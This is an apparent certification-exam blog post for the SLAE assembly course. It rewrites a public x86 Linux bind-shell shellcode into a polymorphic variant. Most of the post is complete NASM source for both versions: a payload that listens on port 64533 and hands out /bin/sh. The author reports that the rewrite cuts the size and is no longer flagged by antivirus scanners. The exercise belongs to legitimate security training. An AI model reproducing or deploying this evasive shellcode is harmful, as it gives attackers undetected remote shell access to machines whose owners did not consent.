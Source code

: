 ```yaml
---
layout: post
title: "SLAE x86 Exam Part 6.3"
description: "SLAE x86 Exam Part 6.3: Polymorphic Shellcode #3"
modified: 2018-06-06T11:00:00-05:00
tags: [pentest, asm, x86, slae]
---
```


# Overview
This blog post has been created for completing the requirements of the
SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](/http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1260

---

For the final part of this exam section, I chose a Bind shell payload from 
Inj3ct0r[^1].  This shellcode looks similar to what we've been working with 
elsewhere in this course, with a few exceptions:

{% highlight nasm %}

global _start
section .text
_start:
    push byte +0x66     ; SYS_SOCKETCALL 
    push byte +0x1      ; SOCKET
    pop ebx             ; Load subcall
    pop eax             ; Load syscall
    cdq                 ; Clear EDX

    push edx            ; Protocol arg (0)
    push byte +0x1      ; SOCK_STREAM
    push byte +0x2      ; AF_INET
    mov ecx,esp         ; Save argument pointer -> ECX
    int 0x80            ; Exec interrupt
    mov esi,eax         ; Save returned FD -> ESI
    
    push byte +0x66     ; SYS_SOCKETCALL
    pop eax             ; Load syscall
    inc ebx             ; EBX -> BIND
    push edx            ; Bind to addr 0.0.0.0
    push word 0x15fc    ; Bind to port 64533
    push bx             ; AF_INET
    mov ecx,esp         ; Save sockaddr_in pointer -> ECX
    push byte +0x10     ; sockaddr_in length: 16
    push ecx            ; Push sockaddr_in pointer
    push esi            ; Push socket FD
    mov ecx,esp         ; Save argument pointer -> ECX
    int 0x80            ; Exec interrupt

    push byte +0x66     ; SYS_SOCKETCALL
    pop eax             ; Load syscall
    inc ebx             ; 2 -> 3
    inc ebx             ; 3 -> 4 (LISTEN)
    push byte +0x5      ; Queue length: 5
    push esi            ; Push socket FD
    int 0x80            ; Exec interrupt

    push byte +0x66     ; SYS_SOCKETCALL
    pop eax             ; Load syscall
    inc ebx             ; 4 -> 5 (ACCEPT)
    push edx            ; Length of new sockaddr_in
    push edx            ; New sockaddr_in placeholder
    push esi            ; Push socket FD
    mov ecx,esp         ; Save argument pointer -> ECX
    int 0x80            ; Exec interrupt

    mov ebx,eax         ; Move connected socket FD to EBX
    push byte +0x3f     ; DUP2
    pop eax             ; Load syscall
    xor ecx,ecx         ; Clear ECX
    int 0x80            ; Exec interrupt

    push byte +0x3f     ; DUP2
    pop eax             ; Load syscall
    inc ecx             ; 0 -> 1
    int 0x80            ; Exec interrupt

    xor eax,eax         ; Clear EAX
    push eax            ; Push null terminator
    push dword 0x68732f2f   ; //sh
    push dword 0x6e69622f   ; /bin
    mov ebx,esp         ; Save argument pointer -> EBX
    cdq                 ; Clear EDX
    push eax            ; Push 0
    mov al,0xb          ; EXECVE 
    pop ecx             ; Clear ECX
    int 0x80            ; Exec interrupt
{% endhighlight %}

It's longer than most Bind shells we've seen to date, mostly due to the lack of
a loop for the DUP2 calls.  It also only binds STDIN and STDOUT to the shell; 
STDERR remains untouched.  Our original shellcode is 97 bytes long and gets 
flagged as malicious by ClamAV[^2].

## Initialization and SOCKET

Off the bat, I moved a few things around in the register initialization. I also
saved `0x66` to `EDI` to make it slightly less obvious what we were doing:

{% highlight nasm %}
xor ebx,ebx         ; Clear EAX
mul ebx             ; Also clear EAX and EDX
xor al,0x66         ; SYS_SOCKETCALL
mov edi,eax         ; Save for future use
inc ebx             ; SOCKET

push edx            ; Protocol arg (0)
push byte 0x1       ; SOCK_STREAM
push byte 0x2       ; AF_INET
mov ecx,esp         ; Save argument pointer -> ECX
int 0x80            ; Exec interrupt
mov esi,eax         ; Save returned FD -> ESI
{% endhighlight %}

## BIND, LISTEN and ACCEPT

There wasn't much to change in the next few calls beyond loading the 
`SYS_SOCKETCALL` opcode from `EDI` and making a slight alteration to how
we change from BIND to LISTEN:

{% highlight nasm %}
mov eax,edi         ; SYS_SOCKETCALL
inc ebx             ; EBX -> BIND
push edx            ; Bind to addr 0.0.0.0
push word 0x15fc    ; Bind to port 64533
push bx             ; AF_INET
mov ecx,esp         ; Save sockaddr_in pointer -> ECX
push byte +0x10     ; sockaddr_in length: 16
push ecx            ; Push sockaddr_in pointer
push esi            ; Push socket FD
mov ecx,esp         ; Save argument pointer -> ECX
int 0x80            ; Exec interrupt

mov eax,edi         ; SYS_SOCKETCALL
shl ebx,0x1         ; 2 -> 4
push byte +0x5      ; Queue length: 5
push esi            ; Push socket FD
int 0x80            ; Exec interrupt

mov eax,edi         ; SYS_SOCKETCALL
inc ebx             ; 4 -> 5 (ACCEPT)
push edx            ; Length of new sockaddr_in
push edx            ; New sockaddr_in placeholder
push esi            ; Push socket FD
mov ecx,esp         ; Save argument pointer -> ECX
int 0x80            ; Exec interrupt
{% endhighlight %}

## DUP2 and EXECVE

Instead of spelling out each DUP2 call, I took the more traditional route and 
collapsed them into a loop.  This saves a few bytes in addition to making it 
easier to add a call for STDERR in the future, if needed.  The only changes I
made to the EXECVE block related to register cleanup due to changes in the 
previous section.

{% highlight nasm %}
mov ebx,eax         ; Move connected socket FD to EBX
xor ecx,ecx         ; Clear ECX
inc ecx             ; Set to 1

dup2_loop:
    mov al,0x3f         ; DUP2
    int 0x80            ; Exec interrupt
    dec ecx             ; 1 -> 0
    jz dup2_loop        ; Loop until ECX == -1

inc ecx             ; Reset ECX back to 0
push ecx            ; Push null terminator
push dword 0x68732f2f   ; //sh
push dword 0x6e69622f   ; /bin
mov ebx,esp         ; Save argument pointer -> EBX
push ecx            ; Push 0
mov al,0xb          ; EXECVE 
int 0x80            ; Exec interrupt
{% endhighlight %}

The final result: 90 bytes of shellcode, down from 97, and nothing flagged on
VirusTotal[^3].

## Screenshots

![Execution of original Payload #3]({{ "/assets/images/6.3-poly3-orig.png" | absolute_url}})
![Execution of Payload #3]({{ "/assets/images/6.4-poly3.png" | absolute_url}})

---

[^1]: http://shell-storm.org/shellcode/files/shellcode-672.php
[^2]: https://www.virustotal.com/#/file/cc485be28bd9a65d555103f44dae12a098616becd89b616c3f71196f4127a614/detection
[^3]: https://www.virustotal.com/#/file/8bc867ab6af03172c256682b09c344ec25e167e67e422b9212a574d7d228777f/detection
